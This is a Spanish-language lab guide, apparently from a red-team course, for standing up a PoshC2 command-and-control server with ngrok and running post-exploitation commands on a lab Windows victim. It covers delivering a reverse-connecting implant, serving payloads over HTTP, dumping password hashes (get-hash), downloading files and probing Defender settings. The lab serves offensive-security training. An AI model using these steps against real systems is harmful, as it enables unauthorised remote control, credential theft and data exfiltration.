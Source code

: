 ## Lab3: C2 - PoshC2
![image](https://user-images.githubusercontent.com/50930193/180666195-537fb36c-88bf-4926-b0d4-fc18e36b06ab.png)

**Descripción**

El laboratorio tiene por objetivo, establecer un Centro de Comando y Control (C2) basado en PoshC2, ejecutar comandos de obtención de información post explotación 

- Para el desarrollo del laboratorio se requiere que el participante instale el PoshC2 siguiendo las indicaciones o desde la página oficial: https://poshc2.readthedocs.io/en/latest/
- Como víctima, se debe crear una instancia en AWS con sistema operativo Windows7 o Windows Server 2012R2 y estar dentro del dominio RTOOS.NET. **La instancia debe estar conectado a la vpn pública.**


### SOLUCIÓN:

1. **Pre-requisito** (Tener Kali actualizado) si no se podrían presentar errores de dependencias:

   ```
   # Instalación en Kali 
   
   $ sudo apt update && sudo apt -y full-upgrade -y
   ```

2. **Instalación** Instalar PoshC2 en el equipo que ejecuta Kali Linux mediante la siguiente línea de comandos :

   ```
   # Instalación en Kali (disponible desde el 14 de Julio del 2022): 
   $ sudo apt install poshc2
   
   # Instalación de manera local: 
   $ curl -sSL https://raw.githubusercontent.com/nettitude/PoshC2/master/Install.sh | sudo bash

   # Instalación en docker:
   $ apt install docker docker.io
   ```
  ![image](https://user-images.githubusercontent.com/50930193/180670874-a44f63a7-866f-4423-8871-8089d206bdcc.png)
  ...
  ![image](https://user-images.githubusercontent.com/50930193/180671002-ea668940-1e65-4878-aef9-41d2ce4329e6.png)

  
- Instalar las dependiencias y configurar lo necesario para ejecutar el C2
- Cuando todo esté instalado correctamente, confgurar el servidor C2, considerando ngrok como proxy o tunnel 

3. **Configuración** Utilice, los siguientes comandos  para configuración:

    ```
    # Creación de proyectos:
    $ sudo posh-project -n <nombre_proyecto>
    ```
   ![image](https://user-images.githubusercontent.com/50930193/180668548-0af7946d-b92f-48b5-94b7-d00e3c7d65fc.png)
   
   ```
    # Configuración:
    $ sudo posh-config # se abrirá en el editor por defecto (vim en su mayoria)
    ```
    Dentro de la configuración se cambiaran 2 parametros generalmente:
    ```
    BindPort: -> Puerto de escucha en Kali o bien que apunte a ngrok
    
    PayloadCommsHost -> url de tu maquina escucha (ip de tu kali o tu ngrok).

    KillDate -> Fecha max que quieres que dure el beacon.
    ```
    
    Con kali directamente
    ![image](https://user-images.githubusercontent.com/50930193/180669019-8b67e91d-c694-442d-be1d-ee7a726b4950.png)

    Con ngrok  `$./ngrok http 8080 --scheme=http`
    ![image](https://user-images.githubusercontent.com/50930193/180670322-011c32ee-e8f0-4cad-8122-21db21b883f8.png)


4. **Ejecutar el Servidor PoschC2** en una ventana de terminal ejecutar el servidor : 
     ```
     $ posh-server
     ```
     ![image](https://user-images.githubusercontent.com/50930193/180675176-76da3ace-6ffb-4769-a639-b478aa4b40ff.png)

     En otra ventana o pestaña de terminal ejecute el cliente o Implant Manager : 
     ```
     posh
     ```
     
  Le solicitará colocar un nombre de usuario.


- Para efectos de este laboratorio, el instructor ejecutará un payload que permitirá desplegar un implante que generará una conexión reversa hacia el PoshC2 Server o el participante puede tener acceso al host victima para realizar la transferncia del implante.

- Una alternativa para la transferencia del payload es utilizar un servidor web creado en la carpeta donde se almacenan los implantes (/opt/PoshC2_Project/payloads) :

```
    python -m SimpleHTTPServer 80
```
  	
- De forma ordenada, el participante deberá comunicar al instructor su dirección IP para que él descargue y ejecute el payload desde la maquina victima. De esta forma, recibirá una conexión reversa en su PoshC2 Server y tendrá su primer implante establecido.

- Otra opción es ejecutar el comando de powershell en base 64.

- En el Implant Handler y en la consola del C2 Server se podrá ver la información del implante que se ha conectado y esta disponible.

- Para interactuar con ese implante desde el Implant Handler, seleccionar el implante por su ID (verifique que sea el que corresponda al mismo que apareció en la consola del C2 Server).

- Ejecute algunos o todos los siguientes comandos además del comando help que le permitirá conocer lo que incluye Posch C2 Server por default :

```
    ls
    pwd
    get-implantworkingdirectory
    cd c:\users\xxxx 
    download-file Tropheo.txt
    get-computerinfo
    get-netstat
    get-pid
    ps
    find-allvulns
    invoke-allchecks
    get-MpPreference
    Get-LocalGroupMember Administrators
    get-hash
    loadmodule SeatBealt.ps1
    seatbelt
```
    
- Antes de culminar, vuelva al primer nivel del Implant Manager para obtener información del C2 Server y un reporte de actividades :

```
    back
    show-serverinfo
    generate-reports
```
    


*============FIN DE DOCUMENTO===============*




